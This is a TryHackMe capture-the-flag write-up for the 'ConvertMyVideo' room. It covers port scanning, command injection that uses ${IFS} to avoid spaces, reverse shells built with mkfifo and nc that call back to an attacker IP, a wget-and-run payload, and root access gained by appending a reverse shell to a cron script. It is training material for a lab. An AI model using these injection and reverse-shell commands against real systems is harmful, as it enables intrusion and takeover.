```yaml
---
title: ConvertMyVideo - Medium THM
date: 2023-11-11 10:20:51 +/-0800
categories: [writeup, tryhackme]
categories: [Talace, writeup]
writeup: :title
permalink: /convertmyvideo
tags: [thm, writeup, medium, linux, command injection, web]     # TAG names should always be lowercase
---
```


- OS: Linux
- Difficulty: Medium
- Author: Talace

# Scanning 

**threader300.py**
```
**python3 threader3000.py**
```
```
Port 22 is open
Port 80 is open
```
**nmap scan**
```
nmap -p22,80 -sV -sC -T4 -Pn -oA 10.10.232.225 10.10.232.225
```
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
# Enumeration

**dirb scan**
```
dirb http://10.10.232.225/ /usr/share/wordlists/dirb/common.txt
```
```
---- Scanning URL: http://10.10.232.225/ ----
+ http://10.10.232.225/admin (CODE:401|SIZE:460)
```
# Command injection 💉
We spawn on the main page
![mainPage](/assets/convertMyVideo/mainPage.png)

I capture the request in burp.. seems not very secure
![burp1](/assets/convertMyVideo/burp1.png)

Try 'id' command, it works!
![idCommand](/assets/convertMyVideo/idCommand.png)

I can't 'ls -la', it return nothing, maybe i can't have white space ? I have found that the var IFS, is by default a ' ', so let's try with it! 
```
--version;ls${IFS}-la;
```

Nice it work, from this i'm able to retrieve a lot of data, and the user by the same occasion
![userFlag](/assets/convertMyVideo/userFlag.png)

**It's cool, but we need a way to enter, let's put a reverse shell in it!**
open my listener:
```
nc -nvlp 4444
```

And send my reverse shell! 
```
rm${IFS}/tmp/f;mkfifo${IFS}/tmp/f;cat${IFS}/tmp/f|sh${IFS}-i${IFS}2>&1|nc${IFS}10.8.138.226${IFS}4444${IFS}>/tmp/f;
```

**Oh crap!? It close instantly, let's wget and run script!**😦
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.138.226 4444 >/tmp/f" >> shell.sh
```
Open a http server
```
python3 -m http.server 80
```
And lunch my new command, wget the script and run it with bash
```
--version;wget${IFS}http://10.8.138.226/pwn.sh;bash${IFS}shell.sh;
```
**Yessir! We are in!**😼

# Privilege escalation 🐧
**Upgrade the shell**
python -c 'import pty; pty.spawn("/bin/bash")'

**Let's run pspy**
check wich one is need:
```
uname -a

Output: Linux dmv 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
I need the 64 bits, wget it and change rights:
```
wget http://10.8.138.226:81/pspy64
&&
chmod +xs pspy64
```

**Now lunch the pspy**
./pspy64
```
2023/11/11 18:13:01 CMD: UID=0     PID=27982  | bash /var/www/html/tmp/clean.sh
```

**Let's lunch a reverseshell from it.**

Open a netcat:
```
nc -nvlp 4445
```
Now put the revershell in it.
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.138.226 4445 >/tmp/f" >> clean.sh
```
Go back on your netcat... Boom! Got root GG!

![ROOT](/assets/convertMyVideo/root.png)

# Resources (optional)
How to run a command without white space: https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces?source=post_page-----e012e7db996--------------------------------